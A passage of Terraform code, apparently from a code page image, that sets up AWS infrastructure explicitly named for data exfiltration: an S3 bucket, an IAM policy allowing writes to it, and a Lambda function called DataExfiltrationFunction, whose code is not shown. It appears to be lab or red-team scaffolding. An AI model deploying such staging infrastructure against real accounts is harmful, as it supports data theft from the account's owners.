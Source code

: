```hcl
        }
      }
    ]
  })
}

resource "aws_iam_policy" "lambda_policy" {
  name = "lambda_s3_access_policy"
  policy = jsonencode({
    Version = "2012-10-17",
    Statement = [
      {
        Effect = "Allow",
        Action = "s3:PutObject",
        Resource = "arn:aws:s3:::${aws_s3_bucket.exfil_bucket.bucket}/*"
      },
      {
        Effect = "Allow",
        Action = "logs:*",
        Resource = "arn:aws:logs:*:*:*"
      }
    ]
  })
}

resource "aws_iam_role_policy_attachment" "lambda_policy_attach" {
  role       = aws_iam_role.lambda_role.name
  policy_arn = aws_iam_policy.lambda_policy.arn
}

resource "aws_s3_bucket" "exfil_bucket" {
  bucket = "data-exfiltration-bucket-${random_string.suffix.result}"
  
  force_destroy = true

  tags = {
    Name = "DataExfilBucket"
  }
}

resource "random_string" "suffix" {
  length  = 6
  special = false
  upper   = false
  lower   = true
  numeric = true
}

data "archive_file" "lambda_zip" {
  type        = "zip"
  source_dir  = "${path.module}/lambda_function"
  output_path = "${path.module}/lambda_function_payload.zip"
}

resource "aws_lambda_function" "exfil_lambda" {
  function_name = "DataExfiltrationFunction"
  handler       = "lambda_function.lambda_handler"
  role          = aws_iam_role.lambda_role.arn
  runtime       = "python3.9"

  filename = data.archive_file.lambda_zip.output_path

  environment {
```